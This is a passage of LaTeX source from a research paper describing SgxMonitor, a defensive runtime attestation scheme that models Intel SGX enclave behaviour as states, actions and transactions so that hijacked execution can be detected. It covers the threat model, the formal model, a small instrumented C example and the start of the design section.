	\item We propose SgxMonitor, a novel runtime remote attestation
	anomaly detection schema designed for SGX 
	enclaves that provides: %(Section~\ref{sec:system-design_sgxmonitor}) 
	\begin{enumerate*}[label=(\roman*)]
		\item a stateful representation of the SGX enclaves runtime 
		properties (Section~\ref{sec:model_sgxmonitor});
		\item a new design for tracing the enclaves runtime behavior 
		in the presence of an adversarial \emph{host} without relying on 
		additional hardware isolation 
		(Section~\ref{sec:system-design_sgxmonitor}).
	\end{enumerate*}
	\item We show the usability and effectiveness of SgxMonitor
	to support its deployment in real-life scenarios 
	(Section~\ref{sec:evaluation}).
\end{itemize}

\section{Threat Model}
\label{sec:threat-model_sgxmonitor}

In this section, we describe the threat model for SgxMonitor.

\paragraph{Adversary Assumptions.}
In line with the SGX assumptions~\citep{rozas2013intel}, we assume the 
adversary is a host, that can threat the enclave in two ways:
\begin{itemize}
	\item Exploiting classic memory-corruption 
	errors~\citep{10.1145/2810103.2813646,tale-two-worlds,251582} that lead to 
	hijacking the enclave execution path~\citep{lee2017hacking,biondo2018guard}.
	\item Altering the enclave communication by overhearing, intercepting, and 
	forging packets such as the Dolev Yao attacker~\citep{dolev1983security}.
\end{itemize}

\paragraph{Enclave Assumptions.}
We assume an enclave developed for SgxMonitor follows the specification 
described in Sections~\ref{sec:model_sgxmonitor} 
and~\ref{sec:system-design_sgxmonitor}.
In particular, SgxMonitor requires the source code of the enclave, that will 
be
instrumented at compilation time to trace runtime enclave information 
(Section~\ref{ssec:compilation-unit}).

\paragraph{Out-of-Scope Attacks.}
We assume the CPU is correctly implemented, thus not prone to rollback 
attacks~\citep{197191}, micro-architectural 
vulnerabilities~\citep{7163052,van2017telling,203183,203698,10.1145/3133956.3134038,kocher2019spectre,van2020lvi},
cache timing attacks 
\citep{206170,moghimi2017cachezoom,10.1145/3065913.3065915},
and denial-of-service from the host.
Such problems are considered orthogonal to SgxMonitor.

\section{Model}
\label{sec:model_sgxmonitor}

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.6\textwidth]{fig_c6/fmi-standard}
	\caption[Standard SGX FSM.]{Standard Finite-State-Machine representation of 
	SGX Enclave~\citep{costan2016intel}.}
	\label{fig:fmi-standard}
\end{figure}

Due to SGX isolation properties, legitimate users cannot validate the runtime 
integrity of an 
enclave, which challenges their ability of identifying attack instances
effectively \citep{snakegx,biondo2018guard,lee2017hacking}.
To understand the underlying reason of this limit, we analyze the SGX 
enclave life-cycle, which is depicted as a Finite-State-Machine in 
Figure~\ref{fig:fmi-standard}.\footnote{This model is a simplified version 
of \cite{costan2016intel}.}
We assume the enclave has been loaded correctly and the host interacts with it 
by means of the opcodes described in Section~\ref{ssec:sgx-core-design}.
The model allows the enclave state to assume only two values: 
\emph{non-in-use} and \emph{in-use}.
In particular, an enclave transits to \emph{in-use} state when an 
\texttt{EENTER} or \texttt{ERESUME} is issued.
Then, the state returns to \emph{non-in-use} when an \texttt{EEXIT} or  
\texttt{AEX} happens.
This simple model is already implemented in the microcode: the same thread 
cannot enter (\ie \texttt{EENTER}) in an enclave which is 
already in \emph{in-use} state; it cannot exit (\ie \texttt{EEXIT}) when the 
enclave is in \emph{non-in-use}.

Intuitively, the model in Figure~\ref{fig:fmi-standard} provides limited
information about the enclave health. In case of new attacks against enclaves'
code~\citep{lee2017hacking,biondo2018guard,snakegx}, we are not able to
backtrace the enclave execution, and finally, distinguish whether an
enclave has been executed properly or not.
Moreover, current runtime RA works~\citep{abera2016c,aberadiat,scarr} focus 
only 
on stateless scenario, thus not fitting the enclaves needs.
SgxMonitor extends the standard SGX model in order to verify the correct 
enclaves runtime behavior, thus enhancing the SGX security guarantees.
%\todo{object}
%SGX enclaves are statful objects that can be modeled as a FSM,
%however, the standard FSM cannot represent modern \stbold{code-reuse attacks} 
%\newtxt{SGX attacks}
%(Section~\ref{sec:motivation}).
%\todo{options + challenge}
%\todo{our choose}
%On the contrary, SgxMonitor is the first runtime RA that employs an 
%enriched 
%FSM able to model the SGX enclaves and to capture modern attacks.
The SgxMonitor model is composed by four elements:
\begin{itemize}
	\item \emph{states}, that represent the runtime values of global structures	
	(Section~\ref{ssec:state}).
	\item \emph{actions}, that are meaningful binary level events (\eg 
	\texttt{EENTER}, function call) (Section~\ref{ssec:actions-definition}).
	\item graphs of \emph{actions}, that are computed offline and used to 
	validate runtime transactions (Section~\ref{ssec:graph-of-action}).
	\item \emph{transactions}, that are sequences of \emph{actions} leading an 
	enclave from a state to the next. They express correct execution paths 
	(Section~\ref{ssec:transaption-model}).
\end{itemize}
In the rest of the section, we detail state, \emph{actions}, transactions, and 
graphs of \emph{actions}. Finally, we show an example in 
Section~\ref{ssec:running-example}.

%\todo{FT: I feel like this paragraph should be removed.}
%The enclaves behavior depends by their internal state (\ie 
%global variables/structure), that  must be taken in account when we validate 
%the runtime correctness.
%Modern SGX code-reuse techniques target these structures for different 
%reasons: 
%Dark-ROP exploits anomalous exceptions handling to locate enclave gadgets, 
%Dilemma 
%forges specific structures to control the CPU registers.
%Tracing critical structures in our model allows an 
%external (trusted) entity to verify the enclave runtime state, and 
%finally reducing the attack surface.

\subsection{State Definition}
\label{ssec:state}

We define a state able to identify attacks that alter important global 
structures introduced by the Intel SGX SDK.
These structures handle operations such as \emph{outside function} 
invocation and \emph{exception handling} 
(Section~\ref{sec:software-guard-extension}), and are targeted by the 
adversaries~\citep{biondo2018guard,lee2017hacking}.
For instance, we can observe if an enclave is consuming a structure not 
previously generated, thus limiting the attack surface of 
modern threats~\citep{biondo2018guard,lee2017hacking}.

Due to the multi-threading nature of enclaves, SgxMonitor 
traces a state for each thread~\citep{intel-developer-guide}.
The state is a triplet defined as $(usage, structure, operation)$.
In particular, \emph{usage} recalls the FSM meaning seen in 
Figure~\ref{fig:fmi-standard} and can assume two values: \emph{in-use} and 
\emph{non-in-use}.
\emph{Structure}, instead, is an hash representation of the current structure 
used. If no \emph{structure} is used, it assumes \emph{null} value (\ie 
$\oslash$).
Finally, \emph{operation} represents the last operation performed over the 
\emph{structure}. In our model, the structures do not change over time, thus, 
we trace their generation (\ie G) and consumption (\ie C).
In case no operation has been performed, we consider a \emph{null} action (\ie 
$\oslash$).

In our proof of concept, we trace the generation and consumption of
\begin{enumerate*}[label=(\roman*)]
	\item \texttt{ocall\_context}, used in the \emph{outside 
		functions} invocation; and
	\item \texttt{sgx\_exception\_info\_t}, used in the 	
	\emph{exception handing}.
\end{enumerate*} 
These two structures are handled at thread granularity, thus they fit 
our model.
In Appendix~\ref{sec:model-examples_sgxmonitor}, we show their FSM 
representation.

%These structures handle high level operations such as \emph{outside functions} 
%invocation and exception handing 
%and the microcode does not validate their integrity.
%As a consequence, an adversary can tamper with them to control the 
%enclave execution
%Therefore, SgxMonitor embeds these structures to identify malicious 
%modifications.

\subsection{Action Definition}
\label{ssec:actions-definition}

Generally speaking, an \emph{action} is a meaningful software event.
We use the \emph{actions} to represent runtime enclave transactions
(Section~\ref{ssec:transaption-model}), that allow the evolution of the 
enclave state; and to build graph of \emph{actions} 
(Section~\ref{ssec:graph-of-action}), that we use to validate the runtime 
transactions.
In particular, we distinguish two type of \emph{actions}: \emph{generic} and 
\emph{stop}.

\paragraph{Generic actions.}
They identify standard software behaviors such as:
\begin{enumerate*}[label=(\roman*)]
	\item edges generated by \emph{control-flows} events; \eg \texttt{jmp}, 
	\texttt{call}, \texttt{ret};
	\item conditional branches (\eg \texttt{jc}); and
	\item function pointer and virtual table assignment.
\end{enumerate*}
Generic \emph{actions} do not alter the state of the enclave and they are 
used to identify correct executions.
We choose these events because they are key information to represent
execution paths~\citep{scarr,hu2018enforcing,kleen2015intel,7924286,9051250}.

\paragraph{Stop actions.}
They alter the state of the enclave, in particular, we consider particular SGX 
opcodes and structures manipulation.
For what concerns SGX opcodes, we consider \texttt{EENTER}, \texttt{EEXIT}, and 
\texttt{ERESUME}, moreover, we distinguish between \texttt{EEXIT} used for an 
ERET or an OCALL, respectively. These actions alter the first field of the 
state (\ie \emph{usage}): when an application enters an enclave, \emph{usage} 
becomes \emph{in-use}, while \emph{usage} turns to \emph{non-in-use} when the 
enclave exits.
For structures manipulations, instead, we trace whenever the enclave 
generates or consumes a structure. This actions alter the \emph{structure} and 
the	\emph{operation} fields in the state; \ie when an \emph{action} generates a 
structure, we store the new structure hash and set \emph{operation} as G, while 
we set \emph{structure} to null (\ie $\oslash$) and \emph{operation} to C when 
the structure gets consumed.

Both \emph{generic} and \emph{stop actions} are formalized as a triplet:
$$
a = (type, src, value)_{cond}.
$$
In particular, \emph{type} identifies the nature of the \emph{action} (\eg 
function call, \texttt{EENTER}).
\texttt{Src}, instead, is the virtual address at which the \emph{action} has 
been performed.
\emph{Value} depends by the actual \emph{action} semantic; for instance; it 
contains the \emph{callee} address in case of function call; a boolean value 
(\ie taken or not) in case of conditional branches; a \emph{null} \emph{value} 
(\ie $\oslash$) in case the \emph{action} does not require it.
Finally, \emph{cond} contains extra condition (\eg $value \ge 0$).
We provide the complete \emph{action} list in Table~\ref{tbl:actionss} grouped 
by \emph{generic} and \emph{stop}.


\begin{table}[t]
	\centering
	\begin{tabular}{ll}
		\toprule 
		\multicolumn{2}{l}{\textbf{Actions}} \\ \midrule
		\multicolumn{2}{l}{\emph{Generic}} \\ \midrule
		%		\textbf{Action} & {} \\ \midrule
		(E, \texttt{src}|$\oslash$, \texttt{dst}|$\oslash$) & Function 
		call, ind. jump, or ret inst. \\ 
		& \texttt{src} and \texttt{dst} can assume null value \\ 
		& (\ie $\oslash$) \\ %to implement a shadow stack \\
		(B, \texttt{src}, $0|1$) & Conditional branch \\
		& ($0$: not taken, $1$: taken) \\ 
		(A, \texttt{src}, \texttt{addr}) & Function pointer assignment \\ 
		(V, \texttt{src}, \texttt{vptr}) & Virtual pointer assignment \\
		& (for C++ virtual classes) \\ \midrule
		%		F & new frame generated when a function is invoked (to get local
		%		variables easier) \\
		\multicolumn{2}{l}{\emph{Stop}} \\ \midrule
		(G, \texttt{src}, \texttt{ctx}) & \texttt{ocall\_context} 
		generation  \\ 
		(C, \texttt{src}, \texttt{ctx}) & \texttt{ocall\_context} 
		consumption \\ 
		(J, \texttt{src}, \texttt{ctx}) & 
		\texttt{sgx\_exception\_info\_t} \\
		&  generation \\ 
		(K, \texttt{src}, \texttt{ctx}) & \texttt{sgx\_exception\_info\_t} \\
		& consumption \\ 
		(N, \texttt{src}, \texttt{idx}) & \texttt{EENTER} for the \emph{secure 
			function} \texttt{idx} \\ 
		(R, \texttt{src}, $\oslash$) & \texttt{ERESUME} \\ 
		(T, \texttt{src}, $\oslash$) & \texttt{EEXIT} from 
		\texttt{enter\_enclave} \\
		& (ERET) \\ 
		(D, \texttt{src}, $\oslash$) & \texttt{EEXIT} from \texttt{do\_ocall} \\
		& (OCALL) \\ 
		\bottomrule
	\end{tabular} 
	\caption[Valid transations definition.]{\emph{Actions} used to 
	define valid transactions grouped by \emph{generic} and \emph{stop}, 
	respectively.}
	\label{tbl:actionss}
\end{table}


\subsection{Graphs of Actions Definition}
\label{ssec:graph-of-action}

Graphs of \emph{actions} are composed by vertexes and edges.
More precisely, vertexes and \emph{actions} are in a bijective relationship, 
\ie each vertex is paired with exactly one \emph{action} and each \emph{action}
is paired with exactly one vertex.
The edges, instead, are combinations of \emph{actions} that appear at 
runtime.

We opted for graphs to efficiently represent loops, that otherwise require
an unpredictable sequence of \emph{actions}, we provide an example in
Section~\ref{ssec:running-example}.
Moreover, the graphs of \emph{actions} allow us to implement a shadow stack  
(further details in Section~\ref{sec:model-validation}).
Finally, we describe the algorithm to extract the graphs of \emph{actions} in 
Section~\ref{sec:model-exctraction}.
%, that identifies correct 
%edges while avoiding impossible ones (\ie symbolic execution excludes pairs of 
%\emph{actions} that do not appear at runtime).



\subsection{Transaction Definition}
\label{ssec:transaption-model}

A transaction identifies a valid execution path in an enclave and
is composed by a valid sequence of \emph{actions} 
(Section~\ref{ssec:actions-definition}) that makes the enclave state 
evolve.
%
%In our model, the state evolves through valid execution paths, that are 
%represented as sequence of \emph{actions} 
%(Section~\ref{ssec:actions-definition}). 
%The \emph{target enclave} T generates a stream of \emph{actions} during the 
%\emph{Online Enclave Verification}, that the \emph{Model Verifier} 
%(Section~\ref{sec:model-validation}) will validate aided by the graphs of 
%\emph{actions} (Section~\ref{ssec:graph-of-action}).
%Intuitively, the transition from a state to the next one happens only through
%valid transactions.
Formally, we indicate a transaction $P$ as following: 
$$
P = [g_1, \dots, g_n, s],
$$
which is a sequence of \emph{generic actions} $g_i$ that terminates with a 
\emph{stop action} $s$.
Intuitively, an enclave should reach a new state only through valid 
transactions, otherwise we observe an anomalous enclave behavior.
We perform the transaction validation by matching the \emph{actions} received
from the monitored enclave with its graphs of \emph{actions}.
We provide the full validation algorithm in Section~\ref{sec:model-validation}.

The \emph{actions} are traced by instrumenting the source code at compilation 
time (Section~\ref{ssec:compilation-unit}), moreover, we propose an 
efficient mechanism to transit the \emph{actions} in the presence of an 
adversarial host 
(Section~\ref{ssec:secure-communication-protocol}).
%Finally, we extract the valid execution paths through a combination of symbolic
% and static analysis (Section~\ref{sec:model-exctraction}).

%\todo{shall I remove this paragraph?}
%The standard SGX FSM contains only limited \emph{actions} (\eg 
%\texttt{EENTER}, 
%\texttt{EEXIT}) to define the state transaction, without considering the entire
%execution path traversed.
%However, code-reuse attacks allow an adversary to hijacks the victim execution 
%(\eg overwriting the return address),
%thus driving an enclave to valid state while keeping valid edge 
%\emph{actions}.

\subsection{Model Example}
\label{ssec:running-example}

\begin{figure}[t]
	\centering
	\begin{subfigure}[b]{0.45\textwidth}
		\centering
		\begin{lstlisting}[style=CStyle,escapechar=|,basicstyle=\ttfamily\tiny]
		struct state L;
		
		int fun(int a) {
		int x = 0;
		for (int i = 0; i < 10; i++) {
		traceBranch(1);
		traceEdge(16); // &add
		x += add(a, i);
		}
		traceBranch(0);
		traceEdge(__builtin_return_address(0));
		return x;
		}
		
		int add(int a, int b) {
		lock(L) // generates a new L
		int x = a + b;
		unlock(L) // consumes L
		traceEdge(__builtin_return_address(0));
		return x;
		}
		\end{lstlisting}
		\caption{The snipped of code used in our example.}
		\label{fig:running-example-code}
	\end{subfigure}
	\hfill
%	\\
	\begin{subfigure}[b]{0.45\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c6/running-example-graph.pdf}
		\caption{The graphs of \emph{actions} used in our example.}
		\label{fig:running-example-graph}
	\end{subfigure}
	\caption[SgxMonitor running example.]{Snipped of code and relative graph of 
	\emph{actions} used to exemplify the SgxMonitor model. We use the graphs of 
	\emph{actions} to represent the internal behavior of the functions, and to 
	implement a shadow stack.}
	\label{fig:running-example}
\end{figure}

Figure~\ref{fig:running-example} shows an example of code and its graphs 
of \emph{actions}.

Figure~\ref{fig:running-example-code} contains a simple code that is composed 
by two functions \texttt{fun()} and \texttt{add()}, and a thread-bounded 
structure \texttt{L}.
We also add the tracing functions \texttt{traceBranch()} and 
\texttt{traceEdge()}, that emits the \emph{action} with type \texttt{B} 
(branch) and \texttt{E} (edge), respectively.
Finally, we assume that the function \texttt{lock()} and \texttt{unlock()} 
generates and consumes the structure \texttt{L}, respectively.
%\feedback{For sake of simplicity, we show a redundant instrumentation to show 
%each \emph{action} emitted.}
The tracing functions infer the \texttt{src} value from the 
stack, an attacker may attempt at tampering with the stack, but this will lead 
to an incorrect sequence of \emph{actions} that will be detected (more details 
in Section~\ref{ssec:secure-communication-protocol}).

Figure~\ref{fig:running-example-graph} shows the graphs of \emph{actions} 
relative to Figure~\ref{fig:running-example-code}.
Any vertex of the graphs represents a single \emph{action}, while the edges 
identify correct pairs of \emph{actions}.
The graphs enables us to describe the loop in \texttt{fun()}: $(\text{E}, 
\oslash, 8) \rightarrow (\text{B}, 6, 1)$.
We also detail few actions that are used to implement a shadow stack:
\begin{itemize}
	\item $(\text{E}, 7, 16)$ is the function call to the \texttt{add()} 
	function.
	
	\item $(\text{E}, \oslash, 8)$ is the return point from the \texttt{add()} 
	function. We indicate the \texttt{src} address as null (\ie $\oslash$) 
	because we do not know \emph{a-priori} the address of the return 
	instruction of \texttt{add()}.
	
	\item $(\text{E}, 19, \oslash)$ and $(\text{E}, 11, \oslash)$  are the exit 
	point of \texttt{add()} and \texttt{fun()} functions, respectively.
	We indicate the \texttt{dst} address as null (\ie $\oslash$) because we do 
	not know the caller.
\end{itemize}
%\todo{review this part}
We detail the validation algorithm in Section~\ref{sec:model-validation}.
In Appendix~\ref{sec:model-examples_sgxmonitor}, we describe the usage of our 
model for the \emph{outside function} invocation 
(Appendix~\ref{ssec:ocall-example}) and the exception handling 
(Appendix~\ref{ssec:exception-handling}).

\section{Design}
\label{sec:system-design_sgxmonitor}

\begin{figure}[t]
	\centering
		
    
\includegraphics[width=\linewidth]{fig_c6/design.pdf}
    \caption[SgxMonitor design.]{The SgxMonitor design is composed by two 
    	distinct phases: Offline Enclave Analysis and Online Enclave 
    	Verification.
    	During the Offline Enclave Analysis, the \emph{Module Extractor} 
    	analyses 
    	the \emph{target enclave} T (\circled[1]) to obtain a \emph{Model} D 
    	that 
    	represents the correct behavior of T (\circled[2]).
    	During the Online Enclave Verification, an \emph{Application} 
    	interacts 	
    	with T by following standard SGX mechanisms (\eg ECALL, OCALL), 
    	meanwhile, 
    	T sends a stream of \emph{Actions} A to the \emph{monitor enclave} M 
    	through a \emph{secure communication protocol} (\circled[3]). 
    	M, then, uses a \emph{Model Verifier} to validate A against D 
    	(\circled[4]).
    	Finally, a \emph{remote entity} R can verify both the static software 
    	integrity of T through the standard SGX RA 							
    	protocol~\citep{anati2013innovative} (\circled[5]) and the runtime 
    	integrity of T by inquiring M about T runtime status (\circled[6]).}
    \label{fig:design_sgxmonitor}
\end{figure}


%\begin{figure}[t]
%	\centering
%	
%	\begin{adjustbox}{addcode={\begin{minipage}{\width}}{\caption[SgxMonitor 
%	design.]{%
%		The SgxMonitor design is composed by two distinct phases: 
%		Offline 
%		Enclave Analysis and Online Enclave Verification.
%		During the Offline Enclave Analysis, the \emph{Module Extractor} 
%		analyses
%		the \emph{target enclave} T (\circled[1]) to obtain a \emph{Model} D 
%		that 
%		represents the correct behavior of T (\circled[2]).
%		During the Online Enclave Verification, an \emph{Application} interacts 
%		with T by following standard SGX mechanisms (\eg ECALL, OCALL), 
%		meanwhile, 
%		T sends a stream of \emph{Actions} A to the \emph{monitor enclave} M 
%		through a \emph{secure communication protocol} (\circled[3]). 
%		M, then, uses a \emph{Model Verifier} to validate A against D 
%		(\circled[4]).
%		Finally, a \emph{remote entity} R can verify both the static software 
%		integrity of T through the standard SGX RA 	
%		protocol~\citep{anati2013innovative} (\circled[5]) and the runtime 
%		integrity of T by inquiring M about T runtime status (\circled[6]).}
%	\label{fig:design_sgxmonitor}\end{minipage}},rotate=90,center}
%	
